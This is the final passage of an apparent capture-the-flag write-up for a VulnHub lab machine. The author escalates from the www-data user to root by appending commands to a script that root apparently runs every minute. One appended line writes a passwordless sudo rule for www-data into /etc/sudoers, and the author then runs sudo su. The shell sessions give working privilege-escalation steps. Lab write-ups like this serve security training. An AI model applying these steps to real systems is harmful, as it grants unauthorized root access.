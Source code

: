www-data@seckenheim:/var/www/html$
{% endhighlight %}

<h3 id="bigimage">Getting root Privilleges!</h3>
<p>Everything is set, now we need to put commands that help us to execute with root privilleges!, but first I want to check if everything is correct, so I have inserted the following <code>id > /tmp/id.txt</code> into shell.sh!, and after one minute!!!!!!</p>

{% highlight bash %}
ww-data@seckenheim:/var/www/html$ echo "id > /tmp/id.txt" >> shell.sh
www-data@seckenheim:/var/www/html$ cat shell.sh

id > /tmp/id.txt
www-data@seckenheim:/var/www/html$ ls -l /tmp
total 4
drwx------ 3 root root 4096 Jun  3 08:26 systemd-private-7060a45ca3a74b00b3de2e03b690a5a5-systemd-timesyncd.service-qdQWyT
www-data@seckenheim:/var/www/html$ ls -la /tmp
total 36
drwxrwxrwt  8 root root 4096 Jun  3 09:05 .
drwxr-xr-x 24 root root 4096 May 21 20:14 ..
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .ICE-unix
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .Test-unix
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .X11-unix
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .XIM-unix
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .font-unix
-rw-r--r--  1 root root   39 Jun  3 09:05 id.txt
drwx------  3 root root 4096 Jun  3 08:26 systemd-private-7060a45ca3a74b00b3de2e03b690a5a5-systemd-timesyncd.service-qdQWyT
www-data@seckenheim:/var/www/html$ cat /tmp/id.txt
uid=0(root) gid=0(root) groups=0(root)
www-data@seckenheim:/var/www/html$
{% endhighlight %}

<p>Finally, I have added a www-data user to <code>/etc/sudoers</code>to get access to the root user! I am sure others will have different way to do this!
{% highlight bash %}echo "www-data  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers{% endhighlight %}
<p>into shell.sh file. And after one minute!!</p>
{% highlight bash %}
www-data@seckenheim:/var/www/html$ sudo su
sudo su
root@seckenheim:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@seckenheim:/var/www/html# ls -l /root
total 4
-rw-r--r-- 1 root root 1727 May 21 22:42 credits.txt
root@seckenheim:/var/www/html#
{% endhighlight %}
<img src="../assets/images/milnet/end.jpg">

<p>Finally, I would like to thank <code>@teh_warriar</code> and <code>#vulnhub</code> for the VM. It was fun.</p>







